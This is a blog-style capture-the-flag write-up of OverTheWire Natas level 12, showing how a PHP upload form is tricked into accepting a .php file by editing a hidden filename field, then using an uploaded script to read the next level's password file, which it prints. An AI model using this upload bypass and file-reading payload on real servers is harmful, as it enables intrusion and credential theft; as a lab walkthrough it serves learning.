 ```yaml
---
layout: post
title: "Natas Level12 - Level13"
date: 2015-09-24 22:28:24
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas12 seems to be a file upload page:

![Screenshot2](/assets/img/screenshots/Natas_level12-2.png)

Lets try it out with the image we got from natas2

    <screemshot>
![Screenshot3](/assets/img/screenshots/Natas_level2-3.png)
    
If we follow the link we get the image we just uploaded. 
The URL tells me this is a php page so let make a script and see if it loads the php:

    <?php
    phpinfo();
    
If we uploaded it and follow to the link we get the following error:

![Screenshot4](/assets/img/screenshots/Natas_level12-4.png)
    
Makes sense, this isn't an image and firefox can't read it as an image. Let look at the source to see if we can get any hints:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas12</h1>
    <div id="content">
    <? 

    function genRandomString() {
        $length = 10;
        $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
        $string = "";    

        for ($p = 0; $p < $length; $p++) {
            $string .= $characters[mt_rand(0, strlen($characters)-1)];
        }

        return $string;
    }

    function makeRandomPath($dir, $ext) {
        do {
        $path = $dir."/".genRandomString().".".$ext;
        } while(file_exists($path));
        return $path;
    }

    function makeRandomPathFromFilename($dir, $fn) {
        $ext = pathinfo($fn, PATHINFO_EXTENSION);
        return makeRandomPath($dir, $ext);
    }

    if(array_key_exists("filename", $_POST)) {
        $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


            if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
        } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
        }
    } else {
    ?>

    <form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Following the source, we can see that the extension of the uploaded file is set from the filename. The filename is sent with the POST request in a hidden field. Lets change this value to something with a .php and see what happens:

![Screenshot5](/assets/img/screenshots/Natas_level12-5.png)
    
Looks like the correct extension is showing up now:

![Screenshot6](/assets/img/screenshots/Natas_level12-6.png)

And we can execute the php!:

![Screenshot7](/assets/img/screenshots/Natas_level12-7.png)
    
Now lets make a script that does something:

    <?php
    echo "Getting File:</br>";
    echo file_get_contents('/etc/natas_webpass/natas13');
    echo "</br>done!";
    
And here is the password for natas13:

![Screenshot7](/assets/img/screenshots/Natas_level12-8.png)
    
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 


